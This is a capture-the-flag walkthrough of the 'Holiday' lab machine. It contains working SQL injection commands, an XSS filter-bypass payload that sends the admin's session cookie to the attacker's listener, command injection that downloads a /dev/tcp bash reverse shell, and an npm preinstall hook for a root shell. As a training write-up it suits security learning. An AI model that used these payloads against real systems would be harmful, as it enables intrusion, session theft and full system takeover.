

# Holiday

## Introduction
The box holiday was originally given an insane difficulty rating during it’s active service on the platform due to the wide range of skills it requires. However as the mind-bending and sophisticated creativity of content creators has improved this box is now retired as a hard difficulty machine. That’s not to say that this machine is a walk in the park, it will test a wide range of different but essential hacking skills and requires persistence and patience to conquer. The machine uses manual exploitation techniques to provide a hands-on experience and teaches us the importance of the penetration tester motto ‘try harder’. It is a highly rewarding experience to solve and an excellent chance for intermediate level hackers to learn new skills and for expert level hackers to put their knowledge and understanding to the test. In this box we will be spoofing user agents, using SQL injection vulnerabilities, using XSS filter bypassing techniques, identifying command injection vectors as-well as exploiting misconfiguration in the Node.js npm tool. 

| Skills Required | Skills Learned |
| ----- | ----------------------------------- |
| Intermediate knowledge of Linux | User agent filtering bypass |
| Basic knowledge of Nodejs and npm | XSS filtering bypass |
| | Obtaining data from local XSS |
| | Privilege Escalating using NOPASSWD files |
| | Exploiting npm|


## Phase 1 – Reconnaissance
If you are attempting machines of this difficulty level then it is highly likely you have used these required reconnaissance tools beforehand. To enumerate this machine we will be using nmap, gobuster and burp suite, we will also be using dirb for demonstration purposes.

### Port Scanning
As always, the best way to start is to find out what ports are open and if there is anything interesting running on them. Below you can see the results of using ``nmap -T4 -sC -sV -p- [target IP]``. Add ``-oN [filename]`` to save the results and avoid having to scan again later.


The scan should reveal ports 22 and 8000 open. Port 22 is the default for SSH, however this SSH service is secured via passworded access. The scan also reveals port 8000 which is usually used for web server development environments or web administration, either way such services being open externally is not recommended. Therefore a HTTP service running on a port other than it’s default of 80 is usually worth investigating, we can also see it is running Node.js. 

### Web Directory Enumeration
Node.js is a web hosted runtime environment for executing javascript based web applications and is commonly encountered, we can treat this service like any other HTTP service and enumerate the directory structure. We’ll use gobuster first with the command ``gobuster dir -u http://10.129.29.105:8000 -w /usr/share/wordlists/dirb/common.txt`` as this provides greater opportunity to learn from this machine. 


At first this will retrieve no results and may seem like a dead-end, but when we visit the service in a web browser we get a strange picture of a hexagon, therefore the content is available but our tools are being denied access. We will have to try harder.


### Request Analysis
We need to know what is different about our enumeration tools request to find out why it is being returned a 404 response. A way to do this is by using a commonly deployed tool called burp suite, if you are attempting a machine at this level then you’ve likely used this before. 

In order for gobuster to be intercepted we will need to route our requests through a burp suite proxy listener first, to do this first go to the proxy options tab then add a new one, use any port number that’s not in use.


Then switch to the ‘Request handling’ tab and set it to redirect to our target IP address and port number and click ‘OK’.


Now simply run gobuster again only this time using the IP and port of the new listener, this allows us to see the request gobuster is sending to the target by passing it through burp suite, ignore the error as it’s due to burp suite intercepting only one request at a time.


When we go back to burp suite and the intercept tab we can see all the header data that was used in the request. The key information here is the ‘User-Agent’ header, notice that it names only our tool and version. To understand why this is important we now need to intercept a browser request to the target. 



For us to intercept requests our browser makes to the target, the network settings need to be temporarily changed to route traffic via the burp suite proxy, we only need it to apply to the HTTP service. If you are attempting hard level machines you’ve likely done this before, but if you are unfamiliar then consult the following guide: https://portswigger.net/burp/documentation/desktop/getting-started/intercepting-http-traffic


When we visit the target via Firefox from Kali Linux, burp suite captures the request which is shown in the screenshot above. The ‘User-Agent’ now reveals information about our browser and operating system as expected. 

The enumeration is failing because the service is selectively providing content based on data provided in the request, this part of the request is always referred to as the user-agent and is often used to ensure compatibility between the client and the server with regards to browsers, versions and operating system. To understand more about the user-agent header and how to use it consult https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent

For our enumeration to work we need to add a specific string to the user agent request header, something in the browser user-agent header is being accepted by the service where gobuster is not. Through trial an error it can be deduced that the key word is “Linux”. To provide user agent data to our requests simply add ``--useragent “Linux”`` to the original gobuster command.


And now we have a list of directories we can explore to find our way of gaining user entry. As far as reconnaissance of this machine goes we’re done and ready to begin exploitation, however there is a quicker and easier way.

### Alternative Web Service Enumeration
The target will only respond to requests made with the word “Linux” included as part of the user-agent header. Some enumeration tools already include this as part of their requests and therefore bypass the need to specify user-agent data. In this example we will use dirb with a common wordlist using ``dirb http://10.129.29.106:8000 /usr/share/wordlists/dirb/common.txt``.


The command was run successfully, we now can see the a list of web pages we can explore to find our way of gaining user entry.

## Phase 2 – Exploitation
Now that enumeration is complete, we can begin to exploit what we have found to gain access to the machine. In this phase we will be using SQL map, bypassing XSS filtering and using command injection techniques.

### Login Page SQL
From our enumeration we found a set of potential vectors to attack the target via the web service. The directories that return 301 cannot be retrieved, the directories that return 302 redirect and the directories that returned 200 will load content. Visiting any page of the target web service in a browser redirects to a login form asking for an username and password. Often it’s worth playing around with login pages by attempting common passwords and testing for SQL injection bypass.


Attempting to login with username admin and password admin returns ‘Invalid User’ to the web page. Before spending time with a brute force, let’s try some SQL injection attempts. By now you are likely familiar with the various inputs that can be used to trick SQL into an authentication bypass, such as the ones found here: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

None of the injection attempts at the password field work, however using ``admin" or "1"="1`` in the username field with a random password (I used admin) returns an interesting result.


This gives us a username and changes the error message to ‘Incorrect password’. We now know the SQL query is likely a vulnerability as the username field is injectable and has revealed database content to us, but our authentication bypass attempts via this vector are achieving nothing. This is a good time to use SQL map on the login form by first intercepting the POST request then running SQL map with that post request. We’ll use burp suite again to capture the request then we can manually copy this request and save it as a raw text file, I’ve named mine as login.req.


A simple way to do this is to use SQL map to dump all the tables it can find. If trying the command sqlmap -r login.req  --dump-all returned no results, run a more intense scan by using ``sqlmap -r login.req --level=5 --risk=3 --dump-all --threads=10``. Since intense scans can take longer I’ve specified 10 threads to speed the process up a little. SQL map will now run various injection attempts in the ‘username’ and ‘password’ fields, since these are defaults we don’t need to specify any fields for SQL map in the command. 


The password hash for the RickA user is now leaked for us. This can take a while as there are additional tables in the database that have been occupied with data. Therefore a quicker way to do this on slower machines is to first dump the tables then dump only the user table, since it’s only login credentials that we’re interested in. To do this replace ``--dump-all`` with ``--tables`` in the command.


Now we can see the ‘users’ table that we’re interested in, we can specify dumping the data from this table by replacing --tables with -T users --dump in the command line. Either way a password hash is revealed to us. This hash has already been registered in online databases and so certain web based tools can find decrypt it such as https://hashes.com/en/decrypt/hash.


We now have a set of login credentials; with the username ‘RickA’ and the password ‘nevergonnagiveyouup’ we can login to the web service. 


Upon successful login, we are taken to a previously unfound page and presented with a table of bookings with the same data we already leaked using sqlmap.

### XSS with Filter Bypass
Once we have passed the login screen, we are presented with the list of database entries, the UUID field in the table presents the unique ID’s as page links. Clicking on one of these links will take you to a page that gives more of the booking details, on this page there is an additional tab named ‘notes’ which presents to us an input field and the hint ‘All notes must be approved by an administrator - this process can take up to 1 minute’.


This means that every minute the machine will review the input and if approved it will be displayed. The hint regarding notes being reviewed by administrator suggests an admin user is viewing the page before approving the note, this means we can use cross-site scripting (XSS) to potentially steal the session data aka cookie and then spoof ourselves as the admin. First we need to get the XSS to work which is easier said than done.

Input fields like this are exactly what we’re looking for when it comes to testing for input based attacks like XSS and command injection. Let’s do a simple test for XSS by inputting a small script that displays an alert as shown above. After less than a minute we can see that the output has been deformed, suggesting some filtering rules have been applied to our original input.


A tactical way to approach this is to lookup XSS filtering bypass cheat-sheets on the internet and use trial and error to observe what gets filtered and what gets bypassed. Something interesting happens when using the ``</img>`` string from https://xn4k.github.io/pentest/bug%20bounty/ethical%20hacking/XSS-Filter-Evasion-Cheat-Sheet/


The filtering removed most of the text, but what’s interesting is how the image tags remain untouched and the ‘src=/’ has been left in, this suggests the rules apply differently to HTML image tags and that the ‘src=/’ will remain if there are double quotes included, but those double quotes themselves are filtered out along with anything that’s included between the ‘/’ and the ‘>’ of the first HTML tag.

There are three rules we can learn from this: Image HTML tags themselves are not filtered like other tags, the ‘src=/’ part remains when there are quotes before the end of the tag, and anything in quotes after the first ‘/’ and before the tag closes (>) is removed. Now let’s see what happens if we take into account these rules but have our script tags between the HTML image tags by trying ``<script>test</script> </img>``.


Now we can see that the filtering is still applied on content between the image tags. Since everything after the first ‘/’ is removed, let’s put the first quote before the ‘/’ then close the image tag again after the script tags and final quote mark. This should work as the tag is not considered closed until the last ‘/>’.  Our next input therefore will be ``<script>test</script>" />``


Success! The filtering has been bypassed and we are able to include script tags on the page. However if we now try to use the alert(“XSS”) function inside the script tags the filtering rules are re-applied.


This means that adding any quotes inside the input will not work, this is due to the way strings are parsed, the open quotation mark before ‘XSS’ is actually seen as a close quotation mark which means we are no longer placing our script tags entirely between the quotation marks inside the image tag. The next step would be to try and use single quotation marks as they do not match with the double quotation marks.


Now the filtering rules have removed the single quotation marks inside our script tags, this means we will be unable to execute any scripts that use string inputs or have quotes as part of their format, this presents an additional challenge if we wish to use XSS to steal the session data from the admin.

## Spoofing Admin Session

The way we want to do this is to force script tags which connect to an external custom script onto the HTML of this webpage, this external custom script should force the admin to make a POST request to our netcat listener so we can extract the session data.  Below shows a simple javascript that waits for the page to load then sends the request with the cookie to our IP using the port netcat will listen on, remember to change it to your IP if using it.

```
window.addEventListener('DOMContentLoaded', function(e) 
{
    window.location = "http://10.10.14.61:4444/?cookie=" + document.getElementsByName("cookie")[0].value
})
```

A method for getting our custom externally hosted script to execute on the webpage is to use the ``document.write('<script src="http://10.10.14.61/session.js"></script>');`` javascript function with a string that calls our hosted script, but we have already determined that the string format is broken by the filtering rules. We can bypass this however by using two handy javascript functions. 

The ``String.fromCharCode()`` function can be used to convert character code into the string that the data represents, if we combine that with the ``eval()`` function which will process a string argument as javascript, then we can convert character code into a string which contains our document.write() function and then run that string as javascript. This will result in the ``document.write()`` function being executed within the script tags which will force the admin to connect to our hosted script. You can read more about javascript and it’s built in functions at:  https://developer.mozilla.org/en-US/docs/Web/JavaScript

We can use python to convert our ``document.write()`` function into character code by using a join which loops through each character in the string and converts it. This can be done by either writing a python script or using the python interpreter, either way the code will be more of less the same.


Now we can use these character codes in our script payload which we can execute by imbedding it into the malformed image tags we experimented with before. First we must host the directory with our local custom javacript via python HTTP server.


Then we start our netcat listener to listen on the port we scripted the data to be posted to before pasting our XSS input into the notes field using the filtering bypass we just discovered.

```
<script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,54,49,47,115,101,115,115,105,111,110,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59))</script>" />
```


Now it’s a case of waiting and watching our netcat listener for our session data. If everything works correctly the session cookie data should be sent to the output of our netcat listener as shown below.


We can use this cookie as our own to spoof the admin user, the example below shows this being done using the dev tools built into firefox. The cookie name remains the same but the value should be replaced with the exact cookie that was intercepted on our listener.


Once we refresh the page we can see a new tab has appeared called ‘Admin’. This means we have successfully spoofed the admin session and can interact with the web server as an admin user account.


### Command Injection
The booking details page doesn’t have anything of further interest, however now that we are on an admin session we can see if there is anything at the ‘/admin’ directory.


We find a page which would provide details of any notes waiting to be approved, there are also two buttons that export database entries. The ‘Bookings’ button exports a full list of the bookings table and the ‘Notes’ button is the same but for the notes table. By using burp suite again, we can see the request that is being made when we press the ‘Bookings’ button.


We can see it is making a GET request to a web file called export, this file takes the input ‘table’ and then generates an output of the entries for the table that matches the name provided. We can change the request to ‘table=user’” then forward it to the web server, this provides a file that contains all the users.


This suggests that the export file is executing a system command, such as sqllite3 to query the database based on the input provided to it. This means that whatever we have the table name as in our request will be included in a system command on the target, presenting us with a potential command injection. 

Let’s try adding ``%3Bwhoami`` to the get request, the ‘%3B’ is URL encoding for the ‘;’ symbol. By adding this we are attempting to execute the ‘whoami’ command after the database query command has been executed, seeing the response will help determine how we can inject our own commands. 


It appears there are some filtering rules that allow only specific characters to be passed into the ‘export’ file. Interestingly, the ampersand symbol (&) is allowed. Consulting online sources such as https://www.tecmint.com/chaining-operators-in-linux-with-practical-examples/ will inform us that the ampersand symbol is a Linux command operator and we know already that the target is running Linux. The ampersand tells the Linux OS to execute that command in the background, we can also use it to execute multiple simultaneous commands in the background. This is how we will carry out the command injection.


We modify the request in burp to replace ‘bookings’ with ‘users%26id’, ‘%26’ is the URL encoding for the ampersand symbol. The file that is sent to us for download will now contain the user table entries as-well as the output from our ‘id’ command.


Our command injection is working, lets use this to download a reverse TCP shell onto the system and then execute it. We can do this by hosting a bash script that starts a reverse TCP shell connecting back to our listener, the code below is the simple bash script that will be downloaded onto the target (remember to change it for your IP).

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.61/4445 0>&1
```

We can host this using python the same way we hosted our javascript file. The target needs to download this bash script via our IP, but IP addresses violate the filtering rules. Luckily, we can use the decimal value of our IP address, since an IP address is just a long integer that we split with periods at every 8-bit for human readability. The online tool found at https://www.browserling.com/tools/ip-to-dec can easily convert our IP address into it’s decimal value.


In the screenshot of Burp Suite above, we have added ``%26wget%20168431165/shell`` to the end of the table field in our get request, with ‘%20’  being a space and the ‘168431165’ being the decimal representation of our IP. We can verify it has been downloaded by checking the python server logs.


Now it’s a case of running a listener on the port we specified in the bash script, then just like before we can use burpsuite to modify the request however this time we add ``%26bash%20shell`` to our table field in order to run the bash script we just downloaded. If everything was successful we now have a reverse shell connection to the target.


We have finally completed the user stage of this machine and can acquire our hash!

## Phase 3 – Privilege Escalation
The final phase of a cyber attack is to escalate privileges and exert total control over the target. When it comes to a Linux target a good place to begin is by checking the list of sudo command rules with ``sudo -l``


Here we can see that the sudo rules allow the user we have just compromised to run the installed npm binary. This is our privilege escalation vulnerability that we’ll be using to get to root.

### Node.js and npm
npm originally was an acronym for ‘Node Package Manager’ however in 2014 this was changed to ‘not a package manager’ to take into account it’s expanded functionality. It comes included as a recommended feature when installing Node.JS, so targets that are using Node.JS may often have this binary included on them.  It’s primarily used to refer to an online open-source repository which people can share and use for Node.js projects, the npm binary we’re working with here serves as a command-line utility for interacting with that repository for the purposes of package installation, version management and dependency management. When used for dependency management, it can install the dependencies of a project in one go via a package.json file. More information about npm can be found on wikipedia or via the Node.js website: https://nodejs.org/en/knowledge/getting-started/npm/what-is-npm/

The vulnerability with having the ‘npm i’ listed as NOPASSWD stems from it’s functionality as a dependency management installer. Dependency packages are in JSON format and this machine is configured to allow this user to install these dependencies with root permissions via ``sudo usr/bin/npm -i``, however part of this installation includes the ability to specify commands to be executed during the installation process by adding a ‘preinstall’ option to the JSON package. This means that whatever command we specify in the ‘package.json’ will be executed with root permission level when we use sudo to install the package with npm, providing us a perfect opportunity to execute a root reverse TCP shell connecting back to our machine.


First we shall create a JSON package in a new directory by using ``npm init`` as we only need sudo to use the ``npm -i`` feature, this will create an empty ‘package.json’ file for us, you may have to reopen your shell after doing this. Since this is a simple shell with no job control it will be challenging to edit this file on our target. Instead we can manually copy the cat package.json output and paste it into a text editor on our attacking machine. Then we can add the command we want executed to our JSON by replacing  ``"test": "echo \"Error: no test specified\" && exit 1"`` with ``"preinstall": "/bin/bash /home/algernon/app/anymuz/rootshell"``. Make sure it is within the ``"scripts"`` part of the JSON data, in this case the command will run bash on the new shell that we will download into the directory I created called 'anymuz'.

```
{
  "name": "anymuz",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "preinstall": "/bin/bash /home/algernon/app/anymuz/rootshell"
  },
  "author": "",
  "license": "ISC"
}
```

Now, let’s host our modified malicious ‘package.json’ file along with a copy of our original reverse shell bash script with a different port on our python server. Once our new files are hosted we can go back to the user shell, remove the old 'package.json' file and then download both the new shell (which I named ‘rootshell’) and our malicious ‘package.json’ to the temporary directory using wget.


With a new listener running to receive connections on the port specified in the new shell on our attacking host, let’s now use the user shell we have to execute the command ``sudo /usr/bin/npm i [directory] --unsafe`` on the target. The command takes the directory the JSON package is in as an argument, npm can tell something is fishy and will refuse to run the command which is why we append ``--unsafe``  to the command to make it ignore the risk. Once the npm command is executed via sudo it will automatically install the ‘package.json’ in that directory and in doing so will also start our newly uploaded shell with root permission.


If everything has worked correctly, the new netcat listener should now have a root shell open for us with full privileges on the target machine.


And there we have it, we have complete and total access over the target machine, from here we can read the root flag and explore other aspects of the machine for research purposes. We can now consider the box ‘Holiday’ complete.

## Conclusion
In this machine we learned a wide range of different techniques to overcome filtering rules and access control. Right from the beginning we are presented with a challenge that requires us to spoof our user agent in order to fully enumerate the node.JS service that we find running from our scan. From there we get to make use of an SQL injection attack vector in the login screen to leak parts of the database, by deploying sqlmap we can leak the entire web server database, but just like in a real scenario the user password is stored as an encrypted hash. The insecure password’s hash value is already available on online depositories allowing us to decrypt the password using online tools and log into the web server. The fun continues as we come across a notes page and clue that an admin user will view them for approval, this provides a chance to try some XSS exploitation and steal their session cookie but first there are some filtering rules we must bypass by persistently testing the input. From there we discover we can use the admin session to export database tables, this presents the chance to learn more about linux command operators and use them alongside request analysis to inject commands on the target and get our user shell. Finally, we are introduced to the npm tool and how misconfiguration of the sudo permissions can allow us to use npm to escalate privileges and compromise the machine. 

Overall, this machine puts a wide range of your skills to the test and presents a highly rewarding challenge for intermediate to expert level hackers and uses manual exploitation techniques for a hands-on hacking experience.


